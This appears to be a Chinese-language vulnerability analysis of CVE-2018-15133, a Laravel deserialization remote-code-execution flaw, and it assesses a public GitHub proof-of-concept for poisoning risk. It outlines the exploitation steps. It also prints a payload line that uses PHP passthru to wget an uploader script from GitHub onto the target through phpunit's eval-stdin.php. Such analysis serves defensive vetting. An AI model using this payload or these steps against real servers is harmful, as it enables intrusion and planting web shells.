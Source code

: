 ## CVE-2018-15133 Laravel Framework 反序列化远程代码执行

**漏洞编号:** CVE-2018-15133

**漏洞类型:** 反序列化漏洞导致远程代码执行

**影响应用:** Laravel Framework

**危害等级:** 高危，可导致远程代码执行

**影响版本:** <= 5.5.40, 5.6.x <= 5.6.29

**利用条件:** 需要知道应用程序密钥（APP_KEY），并且目标系统存在脆弱的Laravel版本。需要网络访问。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2018-15133 漏洞存在于 Laravel Framework 框架中，由于对 X-XSRF-TOKEN 值的反序列化操作不当导致远程代码执行。具体来说，`Illuminate/Encryption/Encrypter.php` 中的 `decrypt` 方法和 `phpggc` 中的 `gadgetchains/Laravel/RCE/3/chain.php` 存在问题。攻击者需要知道应用程序的 APP_KEY 才能利用此漏洞，通常情况下这是不可能的，除非攻击者之前已经获得了特权访问权限或成功完成了之前的攻击。

**有效性评估：**
根据漏洞信息、搜索结果和漏洞利用代码，该漏洞的PoC代码**可能有效**。github上的确存在相关的exp仓库（例如：aljavier/exploit_laravel_cve-2018-15133 和 kozmic/laravel-poc-CVE-2018-15133）。漏洞利用需要已知APP_KEY。

**投毒风险分析：**
提供的PoC代码 `cve.py` 的主要功能是生成包含恶意 URL 的 `curl` 命令，并将其写入 `nikmok.txt` 文件。该 URL 包含一个路径 `/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php`，并在GET请求中包含一段PHP代码，尝试使用`passthru`函数执行`wget`命令，从github下载 `vspup.php` 并保存为 `lol.php`。这种行为本身就具有风险，因为攻击者可能会控制下载的 `lol.php` 内容，从而执行任意代码。

`README.md` 文件指示用户执行 `nikmok.txt` 文件，该文件包含之前生成的 `curl` 命令，实际上是执行远程文件下载和执行的命令。`/vendor/phpunit/phpunit/src/Util/PHP/lol.php` 文件的路径则指示尝试访问利用`vspup.php`下载的lol.php文件，但是这个路径并不合理，因为vspup.php已经被下载到根目录并命名为lol.php。因此，该EXP存在一些问题，**投毒风险较低,大约为10%**，主要集中在github仓库作者可能在其他文件中包含恶意代码或在vspup.php中植入后门（虽然这个不是这个仓库作者控制的）。

**利用方式：**

1.  **前提条件：** 获取目标 Laravel 应用的 APP_KEY。
2.  **构造恶意 X-XSRF-TOKEN：** 使用 `phpggc` 工具生成包含恶意 payload 的序列化数据。该 payload 利用 Laravel 的反序列化漏洞，可以执行任意代码。
3.  **加密 X-XSRF-TOKEN：** 使用 APP_KEY 对 payload 进行加密，生成有效的 X-XSRF-TOKEN。
4.  **发送请求：** 将加密后的 X-XSRF-TOKEN 作为 Cookie 或 Header 发送到目标 Laravel 应用。
5.  **触发漏洞：** 当 Laravel 应用尝试解密和反序列化 X-XSRF-TOKEN 时，恶意 payload 将被执行，从而实现远程代码执行。
6.  **简化流程(根据提供的POC代码)：**
    a. 运行`cve.py`脚本，输入目标网址。
    b. 脚本会将包含特定路径和参数的curl命令写入`nikmok.txt`，尝试通过GET请求和数据`<?php echo passthru("wget https://raw.githubusercontent.com/sKirua/Vespa-Uploader/master/vspup.php -O lol.php");?>`来下载文件。
    c. 运行`nikmok.txt`（实际上是运行文件内包含的curl命令）。
    d. 目标网站如果存在对应路径，则会尝试下载并执行githubusercontent中的`vspup.php`文件，该文件会被重命名为`lol.php`。
    e.  最终的利用需要攻击者能访问到通过`vspup.php`下载的lol.php文件，在提供的路径`/vendor/phpunit/phpunit/src/Util/PHP/lol.php`中，尝试执行恶意代码。

**项目地址:** [Bilelxdz/Laravel-CVE-2018-15133](https://github.com/Bilelxdz/Laravel-CVE-2018-15133)

**漏洞详情:** [CVE-2018-15133](https://nvd.nist.gov/vuln/detail/CVE-2018-15133)